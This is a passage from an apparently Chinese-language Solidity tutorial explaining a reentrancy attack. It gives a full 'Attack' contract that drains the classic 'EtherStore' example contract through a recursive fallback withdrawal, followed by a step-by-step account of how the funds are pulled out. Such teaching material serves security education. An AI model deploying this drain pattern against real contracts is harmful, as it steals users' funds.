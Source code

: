 如果一個攻擊者創建了一個惡意合約如下

```solidity
import "EtherStore.sol";

    contract Attack{
        EtherStore public etherStore;

        constructor( address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }

        function attackEtherStore() public payable{

            //attack to the nearest ether
            require(msg.value >= 1 ether);

            //send eth to the depositFunds() function
            etherStore.depositFunds.value(1 ether)();

            //遊戲開始！
            etherStore.withdrawFunds(1 ether);

        }

        function collectEther() public{
            msg.sender.transfer(this.balance);
        }

        //fallback function - 魔術發生的地方
        function() payable{
            if(etherStore.balance > 1 ether){
                etherStore.withdrawFunds(1 ether);
            }

        }

    }
```

讓我們一步一步來看：

```typescript
1. 攻擊者首先部署EtherStore合約。然後，攻擊者部署Attack合約，並在構造函數中指定EtherStore合約的地址。這樣，Attack合約就可以與EtherStore合約進行交互。


2.攻擊者通過調用Attack合約的attackEtherStore()函數來啟動攻擊。這個函數首先要求攻擊者發送至少1個以太幣到Attack合約。attackEtherStore()函數接著調用EtherStore合約的depositFunds()方法，將這1個以太幣存入EtherStore合約。緊接著，attackEtherStore()函數調用EtherStore的withdrawFunds()方法，嘗試從EtherStore合約提取1個以太幣。


3. 當EtherStore合約處理提款請求時，它將1個以太幣發送回Attack合約。由於是以太幣的轉移，這自動觸發了Attack合約的回調函數（fallback函數）。


4. 回調函數中的重入攻擊：在Attack合約的回調函數中，如果檢測到EtherStore合約的餘額仍然大於1個以太幣，它會再次調用EtherStore合約的withdrawFunds()方法。重點是，在EtherStore合約更新用戶的餘額和最後提款時間之前，就發送了以太幣。這意味著Attack合約可以在同一個交易中多次提取資金。


5.每次Attack合約的回調函數被觸發時，它都會檢查EtherStore的餘額，並再次嘗試提款。這個循環會持續進行，直到EtherStore的餘額降至不足以繼續提款為止。


6. 一旦EtherStore的餘額不足以繼續提款，Attack合約的回調函數停止執行。攻擊者可以通過調用Attack合約的collectEther()函數，將從EtherStore合約中提取的所有資金轉移到自己的賬戶。
```

